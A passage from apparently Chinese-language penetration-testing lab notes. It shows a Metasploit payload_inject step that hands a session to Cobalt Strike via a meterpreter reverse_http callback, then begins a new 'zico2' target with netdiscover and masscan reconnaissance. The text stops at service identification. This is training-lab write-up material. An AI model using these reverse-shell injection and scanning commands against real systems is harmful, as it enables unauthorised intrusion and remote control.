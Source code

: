 由于我们的权限较高，而且是64位的木马，所以这里我们可以不迁移进程。

### 3.3 *联动CS上线（可选）：



cs设置监听器 端口不要和msf一样

 payload选择 `windows/meterpreter/reverse_http`

msf操作：

```shell
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set session 1  # 这里为msf的session
set lhost eth0
set lport 4445
set disablepayloadhandler 1
run
```



# 第5次 zico2

# 1.信息收集

## 1.1 主机发现

```
netdiscover -r 192.168.81.0/24
```

![image-20220315144404186](https://gitee.com/xxb667/img/raw/master/img/image-20220315144404186.png)

## 1.2 端口扫描

```
masscan --rate=1000 -p 0-65535 192.168.81.142
```

发现4个端口

```
22
80
111
53311
```

![image-20220315145631266](https://gitee.com/xxb667/img/raw/master/img/image-20220315145631266.png)

## 1.3 端口服务识别
